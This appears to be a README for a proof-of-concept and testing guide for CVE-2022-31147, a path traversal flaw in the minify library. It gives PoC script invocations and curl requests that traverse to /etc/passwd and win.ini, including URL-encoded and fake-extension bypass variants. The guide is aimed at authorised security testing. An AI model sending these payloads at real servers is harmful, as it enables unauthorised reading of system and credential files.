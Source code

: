 # CVE-2022-31147 Proof of Concept & Manual Testing Guide

This guide provides comprehensive methodologies for testing CVE-2022-31147, a critical path traversal vulnerability affecting the widely used matthiasmullie/minify library. The vulnerability allows attackers to exploit insufficient input sanitization in the minify endpoint, potentially enabling arbitrary file read operations on both Linux and Windows servers. This guide is tailored for security professionals, penetration testers, and researchers seeking to evaluate the exposure of web applications to this threat.

The core of the guide is an automated Python proof-of-concept script, which systematically generates and tests a wide array of traversal payloads. These payloads utilize various depths of directory traversal (../), multiple encoding schemes (such as URL encoding and double encoding), and endpoint variations (including fake extensions and query parameters) to bypass common routing and filtering mechanisms. By leveraging these techniques, the script maximizes the likelihood of detecting vulnerable configurations, even in environments protected by basic web application firewalls or custom routing logic.

Detection accuracy is further enhanced through built-in heuristics that analyze response content for known file markers. For Linux targets, the script searches for patterns typical of /etc/passwd or other sensitive files, while for Windows systems, it looks for indicators within files like win.ini. This approach ensures that successful exploitation is reliably identified, minimizing false positives and streamlining the validation process.

In addition to automated testing, the guide outlines manual validation techniques using curl, enabling practitioners to craft and send custom requests for targeted analysis or to verify findings independently. Recommendations for safe and authorized testing are emphasized throughout, including the importance of conducting assessments only on systems for which explicit permission has been granted.

The guide is designed to support both rapid validation and in-depth analysis, accommodating custom file targets and advanced bypass strategies. It can be integrated into broader vulnerability assessment workflows, providing actionable insights for remediation and risk management. By following the methodologies presented, security teams can effectively identify, validate, and address CVE-2022-31147 exposures in their environments, strengthening the overall security posture of their web applications.
---

## Automated Python PoC

### **Linux Target Example**
```bash
python3 cve-2022-31147_poc.py --base https://yourdomain.tld/cdn/minify --linux --file /etc/passwd
```

### **Windows Target Example**
```bash
python3 cve-2022-31147_poc.py --base https://yourdomain.tld/cdn/minify --windows --file C:\Windows\win.ini
```

### **Safer Test (Recommended)**
Create a harmless file on the server, then attempt to read it:
```bash
python3 cve-2022-31147_poc.py --base https://yourdomain.tld/cdn/minify --file /var/www/test.txt
```

---

## Manual Testing with curl

### **Linux Path Traversal**
```bash
curl -i "https://yourdomain.tld/cdn/minify/../../../../../../etc/passwd"
```

### **Windows Path Traversal**
```bash
curl -i "https://yourdomain.tld/cdn/minify/../../../../../../windows/win.ini"
```

### **Bypass Variants**
```bash
curl -i "https://yourdomain.tld/cdn/minify/%2e%2e/../%2e%2e/../../etc/passwd"
curl -i "https://yourdomain.tld/cdn/minify/../../../../../../etc/passwd.css"
```

---

## **Notes**
- Replace `https://yourdomain.tld/cdn/minify` with your actual target URL.
- For safer testing, use a file you control and know exists on the server.
- Always have permission before testing on any system.

---

## **References**
- [CVE-2022-31147](https://nvd.nist.gov/vuln/detail/CVE-2022-31147)